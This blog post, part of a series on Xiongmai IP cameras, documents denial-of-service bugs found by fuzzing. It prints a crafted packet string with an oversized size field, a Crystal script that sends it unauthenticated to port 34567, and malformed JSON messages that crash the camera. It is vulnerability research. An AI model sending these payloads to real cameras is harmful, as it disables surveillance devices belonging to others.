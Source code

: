 ```yaml
---
layout: post
title:  "Xiongmai - An Investigative Journey 9 - Denial of Service Pt. 1"
date:   2019-09-04 08:00:00 +0100
tags: xiongmai, hacking, ipc
permalink: /xiongmai/9
---
```

During my fuzzing with Radamsa I uncovered a DoS that would take my camera down via the unprivileged user account. Lets find out exactly what caused the crash!

The first thing I did was backup the string, then I cut pieces out until the crash stopped working.

The first thing I did was cut out the "message" portion of the packet, the DoS still worked. After, I started removing bits of the header, which was also the wrong size. I also changed values in it to see what caused caused the crash and what didn't. I found that a size field over 0x80000000 would cause the crash.

<pre><code class="crystal">
crash_string = "\xFF" + ("\x00"*13) + "\x85\x05" + "\x00\x00\x00\x80"
</code></pre>

This could mean a couple things, but most likely that someone used a signed variable for an unsigned integer, since size can never be below 0, this could cause an integer overflow error of some kind, most likely because the program is trying to read in a message size, either far beyond what was expected, or in the negative, causing a crash.

Currently, the exploit uses the magic for OPMonitor, but this vulnerability should affect any command we are allowed to access, and since the "login" command is the most unprivilieged, that should be the next target.

<pre><code class="crystal">
crash_string = "\xFF" + ("\x00"*13) + "\xe8\x03" + "\x00\x00\x00\x80"
socket = MagicSocket.new("192.168.11.109", 34567)
#socket.login "default", Dahua.digest("tluafed")
socket.send crash_string
puts "SENT: #{crash_string.inspect}"
reply = socket.receive_message
puts "GOT: #{reply.message}"
</code></pre>

This produces:

<pre><code>
SENT: "\xFF\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\xE8\u0003\u0000\u0000\u0000\x80"

Unhandled exception:  (MagicError::ReceiveEOF)
  from src/magic_fuzzer/magic_socket.cr:0:7 in 'receive_message'
  from src/sandbox.cr:69:1 in '__crystal_main'
  from /usr/share/crystal/src/crystal/main.cr:97:5 in 'main_user_code'
  from /usr/share/crystal/src/crystal/main.cr:86:7 in 'main'
  from /usr/share/crystal/src/crystal/main.cr:106:3 in 'main'
  from __libc_start_main
  from _start
  from ???
</code></pre>

The ReceiveEOF proves that the socket closed and the server went down.

The camera will go down for about 2 minutes, while still responding to pings for a short period of time while it reboots. The client cannot connect during this reboot period.

<iframe width="616" height="380" src="https://www.youtube.com/embed/SnyPJtDDMFQ" frameborder="0" allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>

While we do have an already working DoS exploit, there is a lot to be learned in further potential fuzzing. Working with Radamsa was a snap, and helped me find two new vulnerabilities, the "Message Quotes" and "Options Wrong Type" vulnerabilities.

## Message Quotes DoS
This one takes advantage of some error made in JSON processing, when given a message that consists entirely of two quotes, the camera crashes. Not really too much to say about it. Like the size int problem, this one works on all commands.
## Options Wrong Type DoS

This takes advantage of another issue in the JSON processing the camera's server does. This one only works on specific commands; OPTalk, OPMonitor, and OPRecordSnap. When these commands are sent, the have the option of including a hash of options under the root as the same name of command.

Example:
<pre><code class="json">
{
  "Name": "OPMonitor",
  "OPMonitor":  {
    "Action": "Claim",
    "Action1":  "Start",
    "Parameter":  {
      "Channel":  0,
      "CombinMode": "NONE",
      "StreamType": "Main",
      "TransMode":  "TCP"
    }
  },
  "SessionID":  "0x0000000007"
}
</code></pre>

Under the "OPMonitor" key, there is a hash of options. The server always expects the value under this key to always be a hash. However, weak checking, poor testing, and bad error handling allows us to crash the camera by swapping the hash with an non-nested type, like a string or a number. For example, the following string crashes the camera.

<pre><code class="json">
{
  "Name": "OPMonitor",
  "OPMonitor": 0,
  "SessionID":  "0x0000000007"
}
</code></pre>